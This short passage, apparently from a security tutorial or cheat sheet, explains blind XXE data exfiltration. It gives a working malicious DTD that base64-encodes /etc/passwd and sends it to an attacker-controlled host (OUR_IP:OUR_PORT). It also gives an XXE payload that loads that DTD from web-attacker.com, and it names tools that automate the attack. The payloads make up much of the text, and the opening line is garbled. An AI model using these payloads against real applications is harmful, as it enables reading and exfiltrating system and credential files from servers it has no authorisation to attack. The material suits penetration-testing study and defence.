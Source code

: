 Exfiltrating sensitive data in blind XXE is hard but not possible. This can be achieved by hosting a malicious DTD on a system that an attacker controls and then invoking it within the XXE payload. An example of a malicious DTD to exfiltrate contents of `/etc/passwd`:
```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY referenceme SYSTEM 'http://OUR_IP:OUR_PORT/?content=%file;'>">
```
> Note: Alternatively, we can use Burp Collaborator, [CanaryTokens](https://canarytokens.org/generate#), or [interactsh](https://github.com/projectdiscovery/interactsh) to replace `OUR_IP:OUR_PORT`.

The attacker must then host the malicious DTD on a system they control. For example, the attacker might serve it at the following URL: `https://web-attacker.com/malicious.dtd`.

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://web-attacker.com/malicious.dtd">
  %remote;
  %oob;
]>
<stockCheck><productId>&referenceme;</productId></stockCheck> <!-- Reference the "referenceme" from ENTITY in our malicious.dtd -->
```

Alternatively, we can use [XXEInjection](https://github.com/enjoiz/XXEinjector) to automate this process.